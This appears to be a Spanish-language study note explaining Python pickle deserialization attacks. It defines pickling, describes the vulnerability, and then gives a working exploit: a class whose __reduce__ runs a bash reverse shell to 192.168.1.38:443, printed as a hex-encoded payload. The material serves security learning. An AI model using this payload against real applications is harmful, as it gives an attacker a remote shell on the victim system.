 -----
- Tags: #ataques #basico #teoria #practica 
----

# ¿ Que es **Pickling** ? 

**Pickling** es el proceso mediante el cual una jerarquía de objetos de Python se convierte en una secuencia de bytes.

----

# ¿ Que es un **ataque de deserialización Pickle** ? 

Un **ataque de deserialización Pickle (DES-Pickle)** es un tipo de vulnerabilidad que puede ocurrir en aplicaciones Python que usan la biblioteca Pickle para serializar y deserializar objetos. 

La vulnerabilidad se produce cuando un atacante es capaz de controlar la entrada Pickle que se pasa a una función de deserialización en la aplicación. Si el código de la aplicación no valida adecuadamente la entrada Pickle, puede permitir que un atacante inyecte código maliciosos en el objeto deserializado. 

Una vez que el objeto ha sido deserializado, el código malicioso puede ser ejecutado en el contexto de la aplicación, lo que puede permitir al atacante tomar el control del sistema, acceder a datos sensibles, o incluso ejecutar código remoto.

Los atacantes  puede aprovecharse de las vulnerabilidades de DES-Pickle para realizar ataques de denegación de servicio (DoS), inyectar código malicioso, o incluso tomar el control completo del sistema. 

-----------

# Explotación 

Supongamos que tenemos una app la cual recibe una cadena hexadecimal en un objeto serializado con Pickle, la convierte a texto legible y la guarda en un archivo sin ningún tipo de validación. 

En el proceso de deserialización, en Pickle, hay una función llamada **__reduce__** la cual podemos controlar para que a la hora de deserializar una data, podemos ingresar a nivel de sistema como queremos que se deserialize o como queremos que se ejecute. Por lo que a la hora de realizar un ataque de deserialización en Pickle mayormente crearíamos un archivo tal que así: 

```python
import pickle, os, binascii 
# binascii para poder convertir la cadena a hexadecimal.

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('bash -c "bash -i >& /dev/tcp/192.168.1.38/443 0>&1"',))

if __name__ == "__main__": 
    print(binascii.hexlify(pickle.dumps(Exploit())))
```

Creamos una clase con la función **__reduce__** la cual retorna lo que nos interesa que devuelva, en este caso la ejecución de un comando a nivel de sistema. Para posteriormente pesarle a la función **pickle.dumps()** para mostrar por consola la data serializada (El comando a ejecutar a nivel de sistema). 

